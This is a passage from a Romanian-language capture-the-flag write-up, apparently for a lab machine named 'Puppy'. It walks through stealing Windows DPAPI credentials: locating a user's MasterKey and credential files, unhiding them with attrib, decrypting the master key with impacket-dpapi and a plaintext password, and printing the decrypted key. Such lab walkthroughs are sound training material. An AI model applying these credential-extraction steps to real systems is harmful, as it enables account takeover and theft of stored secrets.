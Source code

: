 Mai departe o sa urmeze sa descarcam fisierele.

*download Microsoft*

![Fig. 36](/writeups/puppy/image%2035.png)

Fig. 36

Din pacate fisierele care ne trebuiesc noua nu sunt vizibile, si trebuie sa le fortam sa le descarcam. Ca sa nu descarcam din nou tot folderul Microsoft am putea sa descarcam doar ce avem nevoie pentru DPAPI, adica MasterKey si CredFile.

MasterKey: 

*C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407*

CredFile: *C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D*
CredFile: *C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9*

![Fig. 37](/writeups/puppy/image%2036.png)

Fig. 37

Si acum le facem vizibile. 

*attrib -s -h MasterKey
attrib -s -h CredFile1
attrib -s -h CredFile2*

![Fig. 38](/writeups/puppy/image%2037.png)

Fig. 38

Prima comanda pe care o sa o folosim este 

*impacket-dpapi masterkey -file MasterKey -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password 'ChefSteph2025!'*

![Fig. 39](/writeups/puppy/image%2038.png)

Fig. 39

*Decrypted key: 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84*

Acum cu cheia decriptata putem sa obtinem credidentialele. 

O sa salvam cheia ca variabila si o sa aplicam dpapi pentru primul fisier. 

![Fig. 40](/writeups/puppy/image%2039.png)

Fig. 40

si aucm pe al 2-lea. 

![Fig. 41](/writeups/puppy/image%2040.png)
